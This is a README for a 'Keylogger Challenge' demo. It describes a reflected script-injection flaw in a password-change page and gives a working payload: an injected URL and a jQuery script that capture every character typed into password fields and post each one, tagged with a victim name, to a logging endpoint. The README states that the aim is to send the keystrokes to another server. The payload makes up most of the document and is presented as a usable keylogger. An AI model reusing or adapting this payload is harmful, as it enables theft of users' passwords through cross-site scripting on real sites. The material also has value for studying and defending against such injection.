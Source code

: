 
# Keylogger Challenge


### The objective of this challenge:
- Inject a script that saved every character that is types into a password input


## How it works

- profile.html is a demo page that lets a user change their password by entering a new password and confirming it

- There is a get request with a username variable. The variable data is displayed in an invisible div

- The original url looks like this:
```
http://localhost/keylogger/profile.html?username=tal

```

- The page is vulnerable to an injection.

- The below script is injected into the page via the get request

- The url with the injected script looks like this:

```
http://localhost/keylogger/profile.html?username=<script>result="";$(":password").keypress(function(e) {result=String.fromCharCode(e.which);$.post('http://localhost/keylogger/keylogger.php',{"logged_key":result,"victim":"test-victim"}, function(data){});});</script>
```

- The script does the following:

- Every time the user types a character into any password input the character is saved in a log file. (key_logger.log)

- The log shows the character entered and the victims name (or whatever you choose in the script)

- For the purpose of this demo, the log file is on the same localhost, but the objective is to save the characters in the log file on a different server

```javascript
<script>
    result="";
    $(":password").keypress(function(e) {
        result=String.fromCharCode(e.which);
        $.post('http://localhost/keylogger/keylogger.php',{"logged_key":result,"victim":"test-victim"}, function(data){});
    });
</script>
```

## Author
This keylogger was created by Tal Sperling
- talaksu@gmail.com
